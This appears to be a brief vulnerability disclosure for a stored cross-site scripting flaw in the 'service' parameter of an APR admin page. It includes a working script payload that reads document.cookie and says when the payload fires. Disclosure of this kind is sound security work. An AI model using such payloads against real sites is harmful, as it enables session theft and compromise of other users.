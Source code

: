 BUG_Author: DaXian.Li

Vulnerability File: /APR/admin/service.php

POST parameter "service" exists stored cross-site scripting vulnerability

Payload: id=1&service=<script>alert(document.cookie)</script>&price=700.00&edit=

![image](https://github.com/daxian2022/CVE/blob/main/xss.png)

Payload will trigger when a user visits on http://localhost/APR/admin/service.php

![image](https://github.com/daxian2022/CVE/blob/main/xss1.png)
